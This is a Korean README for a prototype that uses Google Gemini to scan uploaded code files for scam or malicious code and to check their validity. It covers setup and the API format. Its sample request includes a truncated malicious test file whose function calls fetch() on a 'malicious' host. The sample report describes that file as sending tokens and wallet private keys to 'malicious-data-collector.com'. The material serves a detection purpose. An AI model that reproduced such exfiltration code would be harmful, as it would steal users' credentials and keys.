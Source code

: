 1. Ludium AI Program Verification System (AI 프로그램 검증 시스템)

[![Status](https://img.shields.io/badge/status-in_progress-yellowgreen)](https://github.com/Ludium-Official/intern-recruitment-validate)

본 프로젝트는 Ludium의 스폰서 프로그램을 위한 AI 기반 자동 검증 도구 시제품(Prototype)입니다. 사용자가 업로드한 코드 파일(.js, .sol, .json 등)을 Google Gemini AI가 분석하여, '스캠/악성 코드' 여부와 '기본적인 코드 유효성'을 검사하고 리포트를 제공합니다.

---

## 2. 주요 기능

* **다중 파일 업로드:** 사용자가 여러 개의 코드 파일을 드래그 앤 드롭으로 업로드할 수 있습니다.
* **파일 형식 검증:** `.js`, `.sol`, `.json` 등 사전에 정의된 텍스트 기반 파일 형식만 업로드하도록 프론트엔드에서 1차 검증합니다.
* **AI 코드 분석:** 백엔드 서버가 업로드된 모든 코드 텍스트를 취합하여 Google Gemini AI에게 전송, '스캠' 및 '유효성' 분석을 요청합니다.
* **리포트 시각화:** AI의 분석 결과를 `PASS` / `FAIL` 상태 및 상세 이슈 목록으로 구분하여 사용자에게 명확한 UI로 보여줍니다.

## 3. 기술 스택 (Tech Stack)

| 구분 | 기술 |
| :--- | :--- |
| **Frontend** | React (Vite), JavaScript, CSS3 |
| **Backend** | Node.js, Express |
| **AI** | Google Gemini API (`gemini-2.5-flash`) |
| **Tools** | Git, GitHub, Discord, Postman |

## 4. 시스템 아키텍처

본 프로젝트는 Client(React)와 Server(Node.js)가 명확히 분리된 API 기반으로 동작합니다.

![AI 검증 프로젝트 다이어그램](AI%20검증%20프로젝트%20다이어그램.png)

*(참고: `AI 검증 프로젝트 다이어그램.png` 파일이 리포지토리 최상단에 함께 있어야 이미지가 표시됩니다.)*

---

## 5. 로컬 환경에서 실행하기

본 프로젝트는 **Backend(서버)**와 **Frontend(클라이언트)**를 별도로 실행해야 합니다.

### A. Backend (Server) 실행

백엔드 서버(`server.js`)는 `localhost:3000`에서 실행되어야 합니다.

```bash
# a. 백엔드(server.js)가 위치한 폴더로 이동합니다.
cd /path/to/backend-folder

# b. 필요한 라이브러리를 설치합니다.
npm install

# c. .env 파일을 생성하고 Google Gemini API 키를 입력합니다.
# (파일 내용 예시: AI_API_KEY=여러분의_Gemini_API_키)
echo "AI_API_KEY=YOUR_GEMINI_API_KEY_HERE" > .env

# d. 서버를 시작합니다.
node server.js
```
ℹ️ 서버가 JSON 분석 서버가 http://localhost:3000 에서 실행 중입니다. 메시지와 함께 실행되는지 확인하세요.

B. Frontend (Client) 실행
프론트엔드(React 앱)는 localhost:5173 (Vite 기본값)에서 실행됩니다.

```Bash

# a. 프론트엔드(React) 프로젝트 폴더로 이동합니다.
cd /path/to/frontend-folder

# b. 필요한 라이브러리를 설치합니다.
npm install

# c. (필수 확인) src/App.jsx 파일의 API_URL이 백엔드 주소와 일치하는지 확인합니다.
# const API_URL = 'http://localhost:3000/analyze';

# d. 프론트엔드 개발 서버를 시작합니다.
npm run dev
```
ℹ️ 브라우저에서 http://localhost:5173 (Vite 기본 포트)으로 접속하여 UI가 정상적으로 표시되는지 확인하세요.

6. API Contract (API 명세)
FE와 BE가 주고받는 핵심 JSON 데이터 구조입니다.

A. FE → BE (Request)
POST /analyze

```JSON

{
  "programMeta": {
    "id": "program-1698715800",
    "title": "User Uploaded Program"
  },
  "codeFiles": [
    {
      "fileName": "test-fail.js",
      "content": "function backupUserData(user) { ... fetch('https://malicious... ... }"
    },
    {
      "fileName": "package.json",
      "content": "{ \"name\": \"test\", ... }"
    }
  ]
}
```
B. BE → FE (Response)
a. 성공 시 (status: "success")
```JSON

{
  "status": "success",
  "analysis": {
    "runId": "analysis-240729-170102389",
    "status": "SUCCESS",
    "processedAt": "2024-07-29T10:30:00.000Z",
    "finalDecision": "SCAM_DETECTED", 
    "summary": "제공된 JavaScript 코드는... 민감한 정보를 'malicious-data-collector.com'으로 전송...",
    "reportDetails": {
      "scamCheck": {
        "issues": [
          "민감한 사용자 토큰 및 지갑 개인 키를 'malicious-data-collector.com'으로 전송합니다..."
        ]
      },
      "validityCheck": {
        "issues": [
          "JSON 구조가 형식적으로 유효합니다.",
          "포함된 JavaScript 코드는 구문적으로 유효합니다."
        ]
      }
    }
  }
}
```
b. 실패 시 (status: "error")
(현재 MVP 범위에서 배제되었으나, 추후 확장 예정)

```JSON

{
  "status": "error",
  "analysis": {
    "status": "FAILED",
    "summary": "AI 서버(Gemini)에 연결하는 중 타임아웃이 발생했습니다."
  }
}
```

7. 팀원 및 역할
PM / Lead: 장훈

Backend / AI: 김성균

Frontend: 박상우

